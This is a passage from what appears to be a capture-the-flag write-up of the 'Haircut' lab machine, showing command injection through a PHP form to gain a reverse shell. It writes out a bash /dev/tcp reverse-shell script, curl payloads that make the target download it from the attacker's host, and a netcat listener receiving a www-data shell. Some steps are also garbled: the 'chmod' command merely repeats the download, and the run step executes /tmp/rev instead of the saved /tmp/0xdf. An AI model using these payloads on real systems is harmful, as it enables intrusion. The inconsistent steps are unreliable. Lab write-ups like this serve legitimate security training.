 But at `tcpdump` I get pings:

```

root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:04:58.132878 IP 10.10.10.24 > 10.10.14.15: ICMP echo request, id 2117, seq 1, length 64
21:04:58.132924 IP 10.10.14.15 > 10.10.10.24: ICMP echo reply, id 2117, seq 1, length 64

```

Replacing `$([command])` with ``[command]`` also worked. All of the reverse shells I typically use contain other filtered characters. But I can use the command injection to upload a shell:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.15/443 0>&1

```

Now I’ll upload it to Haircut with:

```

root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(curl 10.10.14.15/shell.sh -o /tmp/0xdf)' --data-urlencode 'submit=go'

```

That will reach out to my webserver, download `shell.sh` to `/tmp/0xdf`. Now I’ll use the same technique to `chmod` to make the file executable:

```

root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(curl 10.10.14.15/shell.sh -o /tmp/0xdf)' --data-urlencode 'submit=go'

```

And one last time to run it:

```

root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(/tmp/rev)' --data-urlencode 'submit=go'

```

At `nc`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.24.
Ncat: Connection from 10.10.10.24:43906.
bash: cannot set terminal process group (1225): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haircut:~/html$

```
